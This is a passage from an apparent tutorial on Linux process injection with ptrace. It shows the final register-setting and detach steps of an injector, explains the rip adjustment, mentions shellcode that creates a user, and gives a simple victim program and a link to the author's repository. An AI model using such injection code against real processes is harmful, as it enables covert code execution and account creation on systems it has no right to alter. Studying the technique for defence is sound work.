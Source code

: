 **POKETEXT** works on **words**, so everything is converted to word pointers of 32 bits and we also increase i with 4 in every iteration of the for loop

```c
if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
```
now that we have modified the process memory, we want to give control to that code with **PTRACE_SETREGS** and then Detach our program with **PTRACE_DETACH**

after calling inject_code you might have noticed **regs.rip += 2**

when we modify the instruction pointer, ptrace_detach subtracts 2 bytes from the instruction pointer (rip) so to compensate for that 2 byte loss, we add 2 to the **regs.rip**

To sum it up, we have our Process injector script ready, with simple shellcode to create a user 

Now, as our attacker program is ready we need a process to inject, for this purpose, we will spin up a quick c program

```c
#include<stdio.h>
#include<unistd.h>

int main() {
	int i;

	printf ("PID: %d\n", (int)getpid());
	while(1==1){
		printf("working!\n");
		sleep(2);
	}
	getchar();
	return 0;

}
```
## Code

You can find the complete code and files at Author's Github Repo:

[https://github.com/MalavVyas/LinuxProcessInjection](https://github.com/MalavVyas/LinuxProcessInjection)

## Author
